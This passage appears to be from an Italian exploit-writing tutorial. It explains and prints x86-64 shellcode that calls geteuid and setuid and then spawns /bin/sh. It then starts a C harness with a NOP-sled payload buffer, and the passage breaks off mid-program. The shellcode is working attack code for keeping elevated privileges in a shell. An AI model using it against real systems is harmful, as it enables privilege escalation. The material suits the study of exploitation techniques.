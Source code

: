 ```nasm
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    syscall
```

- Prima **ottengo** l’EUID (con `geteuid()`), che è il vero ID del proprietario del processo.
- Poi uso `setuid()` per dire al sistema: "voglio usare questi privilegi come UID reale".
- Infine lancio `/bin/sh`.

Convertito in esadecimale diventa

```c
unsigned char shellcode[] =
  "\x6a\x6b"              // push 0x6b (geteuid)
  "\x58"                  // pop rax
  "\x0f\x05"              // syscall
  "\x48\x89\xc7"          // mov rdi, rax
  "\x6a\x69"              // push 0x69 (setuid)
  "\x58"                  // pop rax
  "\x0f\x05"              // syscall
  "\x6a\x3b"              // push 0x3b
  "\x58"                  // pop rax
  "\x99"                  // cdq
  "\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00"  // mov rbx, "/bin/sh"
  "\x53"                  // push rbx
  "\x48\x89\xe7"          // mov rdi, rsp
  "\x52"                  // push rdx
  "\x57"                  // push rdi
  "\x48\x89\xe6"          // mov rsi, rsp
  "\x0f\x05";             // syscall
```

Quindi il codice completo è: (rimane idendito a parte la nuova shellcode) 

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

unsigned char shellcode[] =
  "\x6a\x6b"              // push 0x6b (geteuid)
  "\x58"                  // pop rax
  "\x0f\x05"              // syscall
  "\x48\x89\xc7"          // mov rdi, rax
  "\x6a\x69"              // push 0x69 (setuid)
  "\x58"                  // pop rax
  "\x0f\x05"              // syscall
  "\x6a\x3b"              // push 0x3b
  "\x58"                  // pop rax
  "\x99"                  // cdq
  "\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00"  // mov rbx, "/bin/sh"
  "\x53"                  // push rbx
  "\x48\x89\xe7"          // mov rdi, rsp
  "\x52"                  // push rdx
  "\x57"                  // push rdi
  "\x48\x89\xe6"          // mov rsi, rsp
  "\x0f\x05";             // syscall

unsigned char* payload[80];

int main() {
    printf("Indirizzo di payload: %p\n", payload);
    memset(payload, 0x90, sizeof(payload)); // NOP sled

```
